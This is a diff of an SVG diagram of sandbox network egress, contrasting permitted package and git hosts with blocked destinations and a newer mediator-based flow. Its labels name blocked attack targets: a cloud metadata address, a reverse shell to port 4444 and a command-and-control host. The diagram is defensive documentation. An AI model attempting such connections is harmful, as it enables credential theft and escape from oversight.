-     <text x="12" y="19" font-size="8.5" font-weight="700" fill="#1e293b">EGRESS VERDICT &amp; FABRIC</text>
-     <g transform="translate(10, 36)">
-       <rect width="182" height="170" rx="3" fill="#ffffff" stroke="#16a34a" stroke-width="1.2" />
-       <rect width="182" height="22" rx="3" fill="#dcfce7" stroke="#16a34a" stroke-width="1.2" />
-       <text x="8" y="15" font-size="8" font-weight="700" fill="#15803d">PERMITTED EGRESS</text>
-       <g transform="translate(8, 28)">
-         <text x="0" y="12" font-family="monospace" font-size="7.5" font-weight="700" fill="#15803d">pypi.org / files.python...</text>
-         <text x="0" y="22" font-size="6.8" fill="#475569">Python wheel dependencies</text>
-         <text x="0" y="38" font-family="monospace" font-size="7.5" font-weight="700" fill="#15803d">api.github.com</text>
-         <text x="0" y="48" font-size="6.8" fill="#475569">Authorized remote git push</text>
-         <text x="0" y="64" font-family="monospace" font-size="7.5" font-weight="700" fill="#15803d">registry.npmjs.org</text>
-         <text x="0" y="74" font-size="6.8" fill="#475569">Node module resolutions</text>
-         <rect y="86" width="166" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
-         <text x="83" y="100" font-size="7.5" font-weight="700" fill="#166534" text-anchor="middle">HTTP 200 OK</text>
-         <text x="83" y="112" font-size="6.8" fill="#15803d" text-anchor="middle">Forwarded over Host eth0</text>
-         <text x="83" y="124" font-size="6.8" fill="#15803d" text-anchor="middle">Clean Execution Pipeline</text>
-       </g>
-     </g>
-     <g transform="translate(10, 214)">
-       <rect width="182" height="182" rx="3" fill="#ffffff" stroke="#991b1b" stroke-width="1.2" />
-       <rect width="182" height="22" rx="3" fill="#fee2e2" stroke="#991b1b" stroke-width="1.2" />
-       <text x="8" y="15" font-size="8" font-weight="700" fill="#991b1b">BLOCKED / TRAPPED</text>
-       <g transform="translate(8, 28)">
-         <text x="0" y="12" font-family="monospace" font-size="7.2" font-weight="700" fill="#991b1b">169.254.169.254 (IMDS)</text>
-         <text x="0" y="22" font-size="6.8" fill="#7f1d1d">Kernel filter drop → TC_ACT_SHOT</text>
-         <text x="0" y="38" font-family="monospace" font-size="7.2" font-weight="700" fill="#991b1b">198.51.100.1:4444 (Raw TCP)</text>
-         <text x="0" y="48" font-size="6.8" fill="#7f1d1d">Reverse shell aborted at L4</text>
-         <text x="0" y="64" font-family="monospace" font-size="7.2" font-weight="700" fill="#991b1b">evil-c2.com (SNI Unlisted)</text>
-         <text x="0" y="74" font-size="6.8" fill="#7f1d1d">HTTP 403 Forbidden → TCP RST</text>
-         <rect y="86" width="166" height="60" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="83" y="100" font-size="7.5" font-weight="700" fill="#991b1b" text-anchor="middle">CONTAINMENT TRIGGERED</text>
-         <text x="83" y="112" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Alert Written to Trajectory Log</text>
-         <text x="83" y="124" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Sandbox Lease Revoked</text>
-         <text x="83" y="136" font-size="6.8" fill="#7f1d1d" text-anchor="middle">Zero Exfiltration onto Fabric</text>
-       </g>
-     </g>
+   <g fill="#e2e8f0" stroke="#64748b" stroke-width="1">
+     <rect x="275" y="76" width="10" height="22" rx="1" />
+     <rect x="275" y="118" width="10" height="36" rx="1" />
+     <rect x="275" y="174" width="10" height="130" rx="1" />
+   </g>
+   <rect x="274" y="204" width="12" height="32" rx="1" fill="#dc2626" stroke="#b91c1c" stroke-width="1" />
+   <rect x="274" y="260" width="12" height="32" rx="1" fill="#dc2626" stroke="#b91c1c" stroke-width="1" />
+   <g fill="#f3e8ff" stroke="#7c3aed" stroke-width="1">
+     <rect x="435" y="76" width="10" height="22" rx="1" />
+     <rect x="435" y="118" width="10" height="186" rx="1" />
+   </g>
+   <rect x="434" y="148" width="12" height="32" rx="1" fill="#dc2626" stroke="#b91c1c" stroke-width="1" />
+   <g fill="none" stroke="#64748b" stroke-width="1.5">
+     <path d="M 168 108 H 538" stroke="#334155" marker-end="url(#arr-gray)" />
+     <path d="M 168 164 H 434" />
+     <path d="M 168 220 H 274" />
+     <path d="M 168 276 H 274" />
+   </g>
+   <g font-size="11" fill="#475569">
+     <text x="291" y="125">to mediator</text>
+     <text x="291" y="181">to mediator</text>
+     <text x="451" y="125">fetch admitted</text>
+   </g>
+   <text x="451" y="99" font-size="11" font-weight="700" fill="#6d28d9">+ credential</text>
+   <g font-size="11" font-weight="700" fill="#b91c1c" text-anchor="end">
+     <text x="429" y="156">operation denied</text>
+     <text x="269" y="212">dropped</text>
+     <text x="269" y="268">no resolver route</text>
+   </g>
+   <rect x="540" y="90" width="140" height="36" rx="3" fill="#ffffff" stroke="#334155" stroke-width="1.5" />
+   <text x="610" y="112" text-anchor="middle" font-size="12" font-weight="700" fill="#0f172a">Approved repository</text>
+   <g fill="#ffffff" stroke="#94a3b8" stroke-width="1.2" stroke-dasharray="4,3">
+     <rect x="540" y="200" width="140" height="40" rx="3" />
+     <rect x="540" y="256" width="140" height="40" rx="3" />
+   </g>
+   <g text-anchor="middle" fill="#64748b">
+     <text x="610" y="216" font-size="12" font-weight="700">Metadata host</text>
+     <text x="610" y="231" font-size="11" font-style="italic">not reached</text>
+     <text x="610" y="272" font-size="12" font-weight="700">External DNS server</text>
+     <text x="610" y="287" font-size="11" font-style="italic">not reached</text>
  </g>
</svg>
